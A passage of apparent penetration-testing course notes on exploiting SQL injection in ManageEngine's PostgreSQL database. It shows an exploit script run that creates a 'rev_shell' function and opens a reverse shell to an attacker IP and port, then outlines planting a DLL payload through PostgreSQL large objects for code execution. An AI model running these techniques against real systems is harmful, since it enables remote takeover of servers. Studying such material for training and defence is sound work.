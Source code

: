 ``` 
   create_udf_func(sqli_url)
   trigger_udf(sqli_url, attacker, port)

```

Calling the python:
```
python3 me_revshell.py manageengine:8443 192.168.45.237 4444
[+] Creating function...
[*] Executing query: CREATE OR REPLACE FUNCTION rev_shell(text,integer) RETURNS void AS $$\\192.168.4
[+] Launching reverse shell...
[*] Executing query: select rev_shell($$192.168.45.237$$, 4444)

```
#### PostgreSQL Large Objects

First, let's try to lay out our goal and the general steps we need to take to get there. Keep in mind that all of these steps should be accomplished using our original SQL injection vulnerability.

Create a large object that will hold our binary payload (our custom DLL file we created in the previous section)
Export that large object to the remote server file system
Create a UDF that will use the exported DLL as source
Trigger the UDF and execute arbitrary code

```
amdb=# select lo_import('C:\\Windows\\win.ini');
 lo_import
-----------
    194206
(1 row)

amdb=# \lo_list
          Large objects
   ID   |  Owner   | Description
--------+----------+-------------
 194206 | postgres |
(1 row)
```

```
amdb=# select lo_import('C:\\Windows\\win.ini', 1337);
 lo_import
-----------
      1337
(1 row)
```
Listing 54 - A lo_import with a known loid

```
amdb=# select loid, pageno from pg_largeobject;
 loid | pageno
------+--------
 1337 |      0
(1 row)
```
Listing 55 - Large objects location
